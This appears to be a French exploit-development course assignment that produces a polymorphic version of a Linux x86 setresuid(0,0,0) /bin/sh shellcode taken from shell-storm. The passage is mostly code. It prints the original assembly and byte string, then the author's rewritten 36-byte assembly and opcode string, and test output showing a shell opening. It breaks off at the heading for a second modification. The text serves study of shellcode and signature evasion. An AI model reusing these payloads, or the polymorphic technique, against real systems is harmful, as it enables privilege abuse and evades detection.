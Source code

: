 # Assignement 6 #

Dans cette section, il est demandé de proposer une version polymorphique de 3 shellcodes issus de la plateforme shellstorm.
 - http://shell-storm.org/shellcode/files/shellcode-220.php


## Première modification ##

Source : http://shell-storm.org/shellcode/files/shellcode-220.php

```c
{==========================================================}
{ linux x86 setresuid(0,0,0)-/bin/sh shellcode 35 bytes    }
{==========================================================}
--[code]--
BITS 32
 
;setresuid(0,0,0)
xor eax, eax
xor ebx, ebx
xor ecx, ecx
cdq
mov BYTE al, 0xa4
int 0x80
 
;execve("/bin//sh", ["/bin//sh", NULL], [NULL])
push BYTE 11
pop eax
push ecx
push 0x68732f2f
push 0x6e69622f
mov ebx, esp
push ecx
mov edx, esp
push ebx
mov ecx, esp
int 0x80
--[/code]--
 
Shellcode string:
--[code]--
char shellcode [] =
"\x80\xcd\xe1\x89\x53\xe2\x89\x51\xe3\x89\x6e\x69\x62\x2f\x68\x68\x73\x2f\x2f\x68\x51\x58\x0b\x6a\x80\xcd\xa4\xb0\x99\xc9\x31\xdb\x31\xc0\x31"
-[/code]-
 
# milw0rm.com [2008-09-29]
```c

http://shell-storm.org/shellcode/files/shellcode-220.php
linux x86 setresuid(0,0,0)-/bin/sh shellcode 35 bytes
Polymorphic version 36 bytes
Author : xophidia

global _start

section .text

_start:

    ;setresuid(0,0,0)

    xor ecx, ecx
    mul ecx
    mov ebx, ecx
    cdq
    mov al, 0xa4
    int 0x80

    ;execve("/bin//sh", ["/bin//sh", NULL], [NULL])

    mul ecx
    push ecx
    push 0x68732f2f
    push 0x6e69622f
    mov ebx, esp
    push ecx
    mov edx, esp
    push ebx
    mov ecx, esp
    mov al, 0xb
    int 0x80

"\x31\xc9\xf7\xe1\x89\xcb\x99\xb0\xa4\xcd\x80\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x51\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"

xophidia@xophidia-VirtualBox:~/Documents/Shellcode/as6$ ./test_shellcode
taille 36
$ 
```

## Seconde modification ##